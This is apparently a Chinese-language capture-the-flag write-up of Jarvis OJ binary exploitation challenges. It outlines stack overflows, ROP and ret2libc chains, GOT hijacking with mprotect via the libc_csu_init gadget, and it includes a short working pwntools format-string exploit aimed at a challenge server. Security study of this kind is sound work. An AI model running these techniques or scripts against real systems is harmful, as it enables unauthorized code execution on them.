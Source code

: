 # Jarvis OJ - Write Up

> 目錄:
> * [smashes](#smashes)
> * [tell_me_something](#tell_me_something)
> * [xman_level0](#xman_level0)
> * [xman_level1](#xman_level1)
> * [xman_level2](#xman_level2)
> * [xman_level2_x64](#xman_level2_x64)
> * [xman_level3](#xman_level3)
> * [xman_level3_x64](#xman_level3_x64)
> * [xman_level4](#xman_level4)
> * [xman_level5](#xman_level5)
> * [61dctf_fm](#61dctf_fm)
> * [guess](#guess)

smashes
---

這題有 Canary 但找不到繞過的方式，但透過 ida pro 可以看到 flag 直接放在程式裡面

那可以透過 SSP leak 的方式，蓋 flag 的位置到 argv[0] 來印出

但可以看到在觸發 canary 保護機制前，他會把放 flag 的地方清掉

但這題有 ELF remapping ，可以在其他位置上找到 flag 的地址


tell_me_something
---

可以看到程式裡面有 good_game() 這個函數，會印出 flag

所以就是 buffer overflow 後跳函數即可

xman_level0
---

同 Tell me Something ， overflow 後跳函數即可

xman_level1 
---

沒有開任何保護，直接將 shellcode 塞到 buf 後跳過去即可

xman_level2
---

/bin/sh 和 system@plt 都可以直接在程式上找到

直接構造 rop 即可

xman_level2_x64
---

/bin/sh 和 system@plt 都可以直接在程式上找到

直接構造 rop 即可

xman_level3
---

利用 write 來 leak base address 後，算出 system 和 /bin/sh 

之後 ROP

xman_level3_x64
---

這題沒有給 system 

但有給 libc 

然後程式裡面也可以找到 sh

所以就是ret2libc ，用 write leak base address

之後算出 system 後執行 system(“sh”)

===
主要有一個問題是，找不到 rdx 的 gadget ，但看調適可以知道他的值會很大


xman_level4
---

這題和前面的差別在，沒有給 libc ，所以可以使用 DynELF

或者 ret2dlresolve 之類的

xman_level5
---
> Description:
>
> mmap和mprotect练习，假设system和execve函数被禁用，请尝试使用mmap和mprotect完成本题。

網路上好像都是用 mprotect ，所以這邊也是參考別人的來做，紀錄一下...

第一個 payload 流程:
1. write(1, write@got, ...) 用來 leak base 來算 mprotect
2. read(0, libc_start_main@got, ...) GOT hijack ，蓋為 mprotect
3. read(0, bss, ...) 放 shellcode
4. read(0, gmon_start@got, ...) GOT hijack ，蓋為 bss
5. 返回 main ，準備第二個 payload

構造第二個payload 中，因為找沒有 pop rdx 這個 gadget ，

所以使用 libc_csu_init 這個萬能 gadget

```
0000000000400650 <__libc_csu_init>:
  400650:       41 57                   push   r15
  400652:       41 89 ff                mov    r15d,edi
  400655:       41 56                   push   r14
  400657:       49 89 f6                mov    r14,rsi
  40065a:       41 55                   push   r13
  40065c:       49 89 d5                mov    r13,rdx
  40065f:       41 54                   push   r12
  400661:       4c 8d 25 d8 01 20 00    lea    r12,[rip+0x2001d8]        # 600840 <__frame_dummy_init_array_entry>
  400668:       55                      push   rbp
  400669:       48 8d 2d d8 01 20 00    lea    rbp,[rip+0x2001d8]        # 600848 <__init_array_end>
  400670:       53                      push   rbx
  400671:       4c 29 e5                sub    rbp,r12
  400674:       31 db                   xor    ebx,ebx
  400676:       48 c1 fd 03             sar    rbp,0x3
  40067a:       48 83 ec 08             sub    rsp,0x8
  40067e:       e8 fd fd ff ff          call   400480 <_init>
  400683:       48 85 ed                test   rbp,rbp
  400686:       74 1e                   je     4006a6 <__libc_csu_init+0x56>
  400688:       0f 1f 84 00 00 00 00    nop    DWORD PTR [rax+rax*1+0x0]
  40068f:       00
  400690:       4c 89 ea                mov    rdx,r13
  400693:       4c 89 f6                mov    rsi,r14
  400696:       44 89 ff                mov    edi,r15d
  400699:       41 ff 14 dc             call   QWORD PTR [r12+rbx*8]
  40069d:       48 83 c3 01             add    rbx,0x1
  4006a1:       48 39 eb                cmp    rbx,rbp
  4006a4:       75 ea                   jne    400690 <__libc_csu_init+0x40>
  4006a6:       48 83 c4 08             add    rsp,0x8
  4006aa:       5b                      pop    rbx
  4006ab:       5d                      pop    rbp
  4006ac:       41 5c                   pop    r12
  4006ae:       41 5d                   pop    r13
  4006b0:       41 5e                   pop    r14
  4006b2:       41 5f                   pop    r15
  4006b4:       c3                      ret

```

第二個 payload 流程:
1. 先跳到 0x4006a6 ，這邊設定 rbx和rbp 要注意 0x40069d 那兩行，等等會跳到那
2. rbx = 0, rbp = 1
3. ret 那邊要蓋為 0x400690，第一次是 call mprotect 來設 bss 為 rwx
4. 所以我們可以知道 rdx = r13, rsi = r14, rdi = edi = r15, r12 = 要跳的位址 = mprotect
5. 第二次要跳 shellcode，這樣就可以 get shell


本地測試正常，不知道為啥丟遠端會有問題，感覺是網路延遲= =...
[參考](http://veritas501.space/2017/03/10/JarvisOJ_WP/)



61dctf_fm
---

這題是基本的 format string vuln

漏洞是 `printf(buf);`

然後只要把 x 從 3 改為 4 即可 

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
#r = process('/tmp/p/a')
r = remote('pwn2.jarvisoj.com',9895)
x = 0x0804a02c
r.sendline(p32(x) + "%11$hhn")
r.interactive()
```


guess
---

直接丟 ida pro ，可以知道他會開 socket 在本地 port: 9999

然後主要程式在 handle() 裡面，輸入長度要求是 100



